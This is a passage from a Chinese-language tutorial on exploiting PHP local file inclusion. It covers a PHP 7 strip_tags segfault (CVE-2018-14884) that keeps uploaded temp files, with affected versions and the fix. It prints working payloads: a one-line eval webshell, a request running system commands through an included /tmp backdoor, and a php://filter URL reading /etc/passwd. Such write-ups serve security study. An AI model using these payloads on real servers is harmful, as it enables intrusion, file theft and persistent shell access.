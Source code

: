 [![](./img/201136/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0189c0caa43809494a.png)

拿到RCE之后，可以查看tmp下生成的后门文件

```
http://192.33.6.145/index.php?file=/tmp/Qftm&amp;Qftm=system(%27ls%20/tmp/%27)
```

[![](./img/201136/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0158deff2e174028b8.png)

然后使用后门管理工具连接后门webshell

```
/tmp/Qftm &lt;?php eval($_REQUEST[Qftm])?&gt;
```

[![](./img/201136/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01b5c2283a38e7d797.png)



## php7 Segment Fault

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E6%9D%A1%E4%BB%B6"></a>利用条件
- **利用条件**
```
7.0.0 &lt;= PHP Version &lt; 7.0.28
```

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

在上面包含姿势中提到的包含临时文件，需要知道phpinfo同时还需条件竞争，但如果没有phpinfo的存在，我们就很难利用上述方法去getshell。

那么如果目标不存在phpinfo，应该如何处理呢？这里可以用`php7 segment fault`特性（[CVE-2018-14884](https://bugs.php.net/bug.php?id=75535)）进行Bypass。

php代码中使用php://filter的过滤器`strip_tags` , 可以让 php 执行的时候直接出现 Segment Fault , 这样 php 的垃圾回收机制就不会在继续执行 , 导致 POST 的文件会保存在系统的缓存目录下不会被清除而不想phpinfo那样上传的文件很快就会被删除，这样的情况下我们只需要知道其文件名就可以包含我们的恶意代码。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D"></a>漏洞修复

官方在PHP Version 7.0.28时已经修复该漏洞

[![](./img/201136/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01c23acd8e061b02a4.png)

官方php7更新日志信息

```
https://www.php.net/ChangeLog-7.php
```

### <a class="reference-link" name="Payload"></a>Payload

更具漏洞分析构造可利用的payload：

```
http://192.33.6.145/index.php?file=php://filter/string.strip_tags/resource=/etc/passwd
```
